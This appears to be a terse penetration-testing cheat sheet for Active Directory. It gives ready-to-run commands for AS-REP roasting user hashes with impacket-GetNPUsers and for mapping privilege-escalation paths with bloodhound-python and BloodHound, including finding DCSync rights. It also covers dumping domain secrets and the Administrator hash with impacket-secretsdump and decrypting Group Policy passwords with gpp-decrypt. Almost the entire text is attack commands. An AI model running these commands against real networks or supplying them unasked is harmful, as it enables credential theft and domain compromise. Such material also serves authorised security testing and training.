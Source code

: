 Request TGT & Dump User Hash
`impacket-GetNPUsers fqdn/user -dc-ip ipaddress -no-pass`

Bloodhound-Python PrivEsc Mapping
`bloodhound-python -ns ipaddress -d fqdn -c All -u user -p pass`

BloodHound Analysis
```
sudo neo4j start

./BloodHound
3 lines > Database Info > (Scroll Down) > Clear Sessions
3 lines > Database Info > (Scroll Down) > Clear Database
Upload Data (Select JSON files)

Common Strategies
3 lines > Analysis > Dangerous Privileges > Find Principals with DCSync Rights
```

Secrets Dump
```
impacket-secretsdump domain/username@ipaddress
(Enter user password at prompt)
```

Secrets Dump Just Administrator
```
impacket-secretsdump domain/username@ipaddress -just-dc-user Administrator
(Enter user password at prompt)
```

Decrypt GPP Groups.xml Password
`gpp-decrypt aeshash`



